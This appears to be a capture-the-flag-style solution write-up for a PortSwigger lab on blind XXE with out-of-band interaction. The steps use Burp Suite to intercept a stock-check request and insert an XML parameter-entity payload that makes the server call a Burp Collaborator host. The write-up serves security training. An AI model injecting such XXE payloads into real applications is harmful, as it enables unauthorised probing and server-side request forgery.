 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0994c9c8-ca9c-4978-9348-56831a2c324f)

## Solution :

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e4c84648-24d3-406f-8f85-404223352b57)

Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d03f5c3b-aeed-47a3-a2ad-ab6447f0fbc6)

Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/84968e64-241b-40d1-9a99-45402066192e)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9417b260-bac8-4a56-8ada-acf51f185c55)
